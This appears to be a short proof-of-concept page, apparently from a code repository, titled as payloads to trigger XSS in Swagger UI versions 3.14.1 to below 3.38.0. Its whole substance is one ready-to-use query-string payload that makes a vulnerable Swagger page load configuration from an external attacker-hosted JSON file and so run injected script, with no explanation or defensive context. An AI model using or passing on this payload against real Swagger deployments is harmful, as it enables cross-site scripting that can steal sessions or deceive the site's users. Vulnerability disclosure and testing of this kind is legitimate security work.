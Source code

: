 # Payloads to trigger XSS in versions of Swagger >=3.14.1 < 3.38.0
`?configUrl=https://anhdq201.github.io/swagger-xss-poc/anhdq201.json`
